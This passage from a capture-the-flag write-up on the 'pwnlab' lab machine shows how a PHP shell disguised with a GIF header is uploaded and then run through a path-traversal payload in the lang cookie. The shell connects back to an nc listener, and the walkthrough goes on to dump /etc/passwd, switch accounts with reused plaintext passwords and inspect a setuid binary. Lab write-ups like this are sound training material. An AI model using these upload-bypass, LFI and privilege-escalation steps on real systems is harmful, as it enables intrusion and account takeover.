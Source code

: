 ### 6. Get a shell

It looks like the application does both MIME and extension checks. This means I will need to make sure my uploaded file has both an image file extension as well as the right mimetype. I can add the `GIF89a;` header to the front of a file and try to upload it, which succeeds. I can't execute my PHP code through the browser, but the other lang cookie LFI vuln allows me to access the file and include it in the page, triggering the shell.  
The lang cookie that works for me is: `lang=../../../../../../../var/www/html/upload/0c911ccc17139953d356270504bbf42c.jpg`
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvnp 9999                   
listening on [any] 9999 ...
connect to [192.168.34.141] from (UNKNOWN) [192.168.34.151] 59628
Linux pwnlab 3.16.0-4-686-pae #1 SMP Debian 3.16.7-ckt20-1+deb8u4 (2016-02-29) i686 GNU/Linux
 21:32:58 up 57 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

### 7. Enumeration
Each account which was in the users table has an account on the machine. From /etc/passwd:
```bash
john:x:1000:1000:,,,:/home/john:/bin/bash
kent:x:1001:1001:,,,:/home/kent:/bin/bash
mike:x:1002:1002:,,,:/home/mike:/bin/bash
kane:x:1003:1003:,,,:/home/kane:/bin/bash
```
It turns out both Kent and Kane are reusing their passwords.
```bash
www-data@pwnlab:/var/www/html$ su - kent 
Password: JWzXuBJJNy

kent@pwnlab:~$ id
uid=1001(kent) gid=1001(kent) groups=1001(kent)

kent@pwnlab:~$ su - mike
Password: SIfdsTEn6I
su: Authentication failure

kent@pwnlab:~$ su - kane
Password: iSv5Ym2GRo

kane@pwnlab:~$ id
uid=1003(kane) gid=1003(kane) groups=1003(kane)
```
In Kane's home folder, he has a setuid binary called "msgmike" which when ran, tries to access "mike.txt" in Mike's home folder as Mike.
```bash
kane@pwnlab:~$ ls -l msgmike
ls -l msgmike
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
kane@pwnlab:~$ ./msgmike
./msgmike
cat: /home/mike/msg.txt: No such file or directory
```
I can run strings on the file to see how the command is called:
```bash
kane@pwnlab:~$ strings msgmike
...
setreuid
system
__libc_start_main
```